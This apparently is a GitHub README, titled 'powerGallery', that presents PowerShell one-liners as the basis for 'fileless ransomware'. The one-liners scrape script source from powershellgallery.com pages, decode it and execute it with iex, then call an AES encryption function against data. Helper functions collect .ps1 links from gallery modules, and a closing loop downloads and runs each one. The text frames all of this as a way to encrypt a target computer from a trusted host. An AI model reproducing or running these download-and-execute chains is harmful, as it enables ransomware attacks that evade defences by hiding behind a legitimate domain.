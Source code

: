 # powerGallery

This one liner will load the neccessary files to encrypt a system straight from the trusted powershellgallery.com website.
Used in conjunction with a simple for loop its is now fileless ransomware hosted and executed from your platform

```powershell
([regex]::Matches((irm "https://www.powershellgallery.com/packages/PSAES/1.0.0.5/Content/Protect-AESMessage.ps1"),'(?<=<td class="fileContent .*?">).*?(?=<\/td>)','s').Value|%{[System.Net.WebUtility]::HtmlDecode($_)})-replace'<[^>]*>'-replace'^\s*',''-replace '[^\x20-\x7E]'|iex
```

Next its as simple as running the commands stored in that module agaisnt the system
In this instance we can encrypt a string, but why stop there? 

```powershell
$encryptedMessage = Protect-AESMessage -Message "Sensitive Data" -Password "89c57yj78754cth8"
```

Combining them into a simple one liner. Together with yet another simple functionality the `for loop` you should be able to see the danger
We could run fileless ransomware on a target computer all from a trusted source

```powershell
([regex]::Matches((irm "https://www.powershellgallery.com/packages/PSAES/1.0.0.5/Content/Protect-AESMessage.ps1"),'(?<=<td class="fileContent .*?">).*?(?=<\/td>)','s').Value|%{[System.Net.WebUtility]::HtmlDecode($_)})-replace'<[^>]*>'-replace'^\s*',''-replace '[^\x20-\x7E]'|iex;$encryptedMessage = Protect-AESMessage -Message "Sensitive Data" -Password "89c57yj78754cth8"
```

# Get Current Version

```powershell
# Define the regex pattern to extract content from <h2> within the specified <article> class
$pattern = '<article class="col-sm-12 col-md-8 package-details-main special-margin-left">.*?<h2>(.*?)</h2>'

# Perform the regex match
$match = [regex]::Match($html, $pattern, [System.Text.RegularExpressions.RegexOptions]::Singleline)

# Extract the value
if ($match.Success) {
    $h2Content = $match.Groups[1].Value.Trim()
    # Output the content of the <h2> tag
    $h2Content
} else {
    "No <h2> tag found within the specified <article> class."
}
```


You can use this function to grab the links of all the .ps1 files in a module from the powershell gallery website

```powershell
function Get-Ps1Urls {
    param ([string]$Url)
    try {

        # https://www.powershellgallery.com/packages/$module
        $content = Invoke-RestMethod -Uri $Url
        $regex = '<a\s+[^>]*href="([^"]+\.ps1)"[^>]*>'
        $matches = [regex]::Matches($content, $regex)
        $baseURL = "https://www.powershellgallery.com"
        $ps1Links = @()
        foreach ($match in $matches) {
            $relativeLink = $match.Groups[1].Value
            $fullLink = $baseURL + $relativeLink
            $ps1Links += $fullLink
        }
        return $ps1Links
    }
    catch {
        Write-Error "An error occurred: $_"
    }
}
```

Syntax:

```powershell
$urls = get-Ps1Urls -Url "https://www.powershellgallery.com/packages/PSAES/1.0.0.5"
```


```powershell
$urls = @("https://www.powershellgallery.com/packages/PSAES/1.0.0.5/Content/Protect-AESMessage.ps1")

foreach ($url in $urls){([regex]::Matches((irm "$url"), '(?<=<td class="fileContent .*?">).*?(?=<\/td>)', 's').Value|%{[System.Net.WebUtility]::HtmlDecode($_)})-replace'<(?!#)[^>]+>|(?<!<#)>(?![^#])',''|iex}
```











